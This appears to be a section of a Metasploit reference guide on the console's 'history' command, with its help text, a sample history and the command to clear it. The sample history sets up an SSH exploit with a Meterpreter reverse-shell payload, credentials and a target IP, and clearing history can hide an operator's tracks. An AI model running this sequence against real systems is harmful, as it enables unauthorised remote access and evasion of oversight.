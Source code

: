 # 05 - History

Search Tag(s): #metasploit-framework #command-and-control

## 5.1 - Help Menu

```
msf > history -h
Usage: history [options]

Shows the command history.

If -n is not set, only the last 100 commands will be shown.
If -c is specified, the command history and history file will be cleared.
Start commands with a space to avoid saving them to history.

OPTIONS:

    -a, --all-commands  Show all commands in history.
    -c, --clear         Clear command history and history file.
    -h, --help          Help banner.
    -n <num>            Show the last n commands.
```

## 5.2 - Show Metasploit History Commands

```
msf > history
102  use exploit/multi/ssh/sshexec
103  options
104  show targets
105  set target 1
106  set payload linux/x64/meterpreter/reverse_tcp
107  options
108  set lport 53
109  run username=fox password=pass1234 rhosts=10.0.2.15
..[truncated]..
```

## 5.3 - Clear Metasploit History Commands

```
msf > history -c
```